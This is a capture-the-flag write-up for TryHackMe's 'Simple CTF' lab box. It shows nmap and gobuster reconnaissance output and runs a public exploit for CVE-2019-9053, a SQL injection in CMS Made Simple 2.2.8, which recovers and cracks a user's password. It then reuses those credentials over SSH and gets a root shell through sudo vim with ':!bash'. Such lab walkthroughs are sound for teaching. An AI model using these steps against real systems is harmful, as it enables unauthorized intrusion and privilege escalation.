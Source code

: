 [![Needed-nmap](https://img.shields.io/badge/Needed-nmap-blue)](https://nmap.org/)
[![Needed-Gobuster](https://img.shields.io/badge/Needed-Gobuster-orange)](https://github.com/OJ/gobuster)

# Simple CTF

## Reconnaissance
As always we start by scanning target machine with nmap. The target responds to ICMP, so we don't need `-Pn` flag.<br>
The scan will be:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ sudo nmap -sC -sV 10.10.23.113 
Stats: 0:00:03 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.65% done
Host is up (0.081s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.20.168
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

We briefly look at the services:
- **Port 21**: ftp service. Anonymous fs is empty
- **Port 80**: Apache2 web server homepage. Nothing strange, but we will enumerate the URL for some more useful files
- **Port 2222**: SSH service. We don't know neither credentials nor SSH key

## Enumeration
Now we use gobuster to discover some hidden page hosted on the server:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ gobuster -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt dir -u http://10.10.23.113 -x js,txt,py,
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.23.113
[+] Method:                  GET
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              js,txt,py,php
===============================================================
/robots.txt           (Status: 200) [Size: 929]
/simple               (Status: 301) [Size: 313] [--> http://10.10.23.113/simple/]
...
```

In `robots.txt` we find some (probably) useless license, but in `simple` directory we find a lot of interesting stuff:
```
┌──(marco㉿DellMarco)-[/mnt/f/kali]
└─$ gobuster -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt dir -u http://10.10.23.113/simple -x js,txt,py,php
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.23.113/simple
[+] Method:                  GET
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              js,txt,py,php
===============================================================
/index.php            (Status: 200) [Size: 19913]
/modules              (Status: 301) [Size: 321] [--> http://10.10.23.113/simple/modules/]
/uploads              (Status: 301) [Size: 321] [--> http://10.10.23.113/simple/uploads/]
/doc                  (Status: 301) [Size: 317] [--> http://10.10.23.113/simple/doc/]    
/admin                (Status: 301) [Size: 319] [--> http://10.10.23.113/simple/admin/]  
/assets               (Status: 301) [Size: 320] [--> http://10.10.23.113/simple/assets/] 
/lib                  (Status: 301) [Size: 317] [--> http://10.10.23.113/simple/lib/]    
/install.php          (Status: 301) [Size: 0] [--> /simple/install.php/index.php]        
/config.php           (Status: 200) [Size: 0]                                            
/tmp                  (Status: 301) [Size: 317] [--> http://10.10.23.113/simple/tmp/]
...
```

Just in `index.php` we find something interesting: this site is CMS Made Simple 2.2.8. CMS Made Simple isn't a really interesting service, but version 2.2.8 is vulnerable to SQL injection, so we can exploit it.

## SQL injection
On exploit-db we can find a short python exploit for [CVE-2019-9053](https://www.exploit-db.com/exploits/46635). Unfortunately it made me install python 2 to run it...<br>
Running it we get username, mail and password hash and salt ():
```
┌──(marco㉿DellMarco)-[/mnt/f/kali/TryHackMe/Simple_ctf]
└─$ python2 exploit_CVE-2019-9053.py -u http://10.10.34.6/simple/ --crack -w /usr/share/wordlists/rockyou.txt
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

With these credentials we can login both on CMS Made Simple login page and SSH. On mitch's home directory we can find the flag `user.txt`.<br>

## Root flag
The root flag `/root/root.txt` is obviously accessible only to root, but "we are" just an old ordinary mitch...<br>
The first move is to check sudo privileges:
```
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

This response means that, as SuperUser, we can only run Vim, but we can do it without password! Seems pretty easy: we can open the flag with vim editor :)

## Root flag - V2
In case we didn't know where the flag is we can always use vim's ability to execute commands typing `:!bash`.